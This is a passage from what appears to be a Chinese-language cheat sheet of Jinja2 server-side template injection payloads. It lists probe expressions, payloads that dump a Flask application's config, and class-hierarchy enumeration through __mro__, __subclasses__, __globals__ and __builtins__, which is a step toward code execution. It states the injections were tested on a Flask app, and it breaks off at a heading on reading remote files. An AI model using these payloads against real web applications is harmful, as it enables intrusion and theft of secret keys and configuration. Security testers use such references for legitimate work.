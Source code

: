 ```python
{{4*4}}[[5*5]]
{{7*'7'}} 结果为 7777777
{{config.items()}}
```

Jinja2 被 Python Web 框架如 Django 或 Flask 所使用。
上述注入已在 Flask 应用程序上测试。

### Jinja2 - 模板格式

```python
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}
```

### Jinja2 - 调试语句

如果启用了调试扩展，则可以使用 `{% debug %}` 标签来转储当前上下文以及可用的过滤器和测试。这在查看模板中可用的内容而无需设置调试器时非常有用。

```python
<pre>{% debug %}</pre>
```

来源: [jinja.palletsprojects.com](https://jinja.palletsprojects.com/en/2.11.x/templates/#debug-statement)

### Jinja2 - 转储所有使用的类

```python
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

访问 `__globals__` 和 `__builtins__`:

```python
{{ self.__init__.__globals__.__builtins__ }}
```

### Jinja2 - 转储所有配置变量

```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### Jinja2 - 读取远程文件
